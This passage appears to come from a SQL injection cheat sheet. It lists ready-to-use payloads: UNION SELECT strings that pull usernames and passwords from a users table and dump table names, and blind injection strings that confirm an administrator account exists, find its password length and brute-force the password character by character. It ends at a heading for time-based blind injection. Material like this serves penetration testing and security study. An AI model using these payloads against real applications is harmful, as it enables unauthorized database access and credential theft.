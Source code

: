 **BINARY**: Sensitive to upper case and lower case.

```txt
' UNION SELECT username,password FROM users WHERE username='admin' AND BINARY password='PassWord'--
' UNION SELECT username,password FROM users WHERE username='admin' AND BINARY password='PassWord'-- -
```

### Dumping Table

```html
' UNION SELECT table_name FROM table_name--
' UNION SELECT table_name,NULL FROM table_name--
```

<br />

## Blind SQL

### 1. Check if the SQL Injection Works

```txt
' AND '1'='1
' AND '1'='2
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

### 2. Check if Content Value Exists

For example, check if username 'administrator' exists in 'users'

```txt
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

If so, determine the password length

```txt
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
...
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=8)='a
```

Brute force password's character

```txt
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='$a$
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='$a$
...
' AND (SELECT SUBSTRING(password,8,1) FROM users WHERE username='administrator')='$a$
```

<br />

## Blind SQL (Time-based)
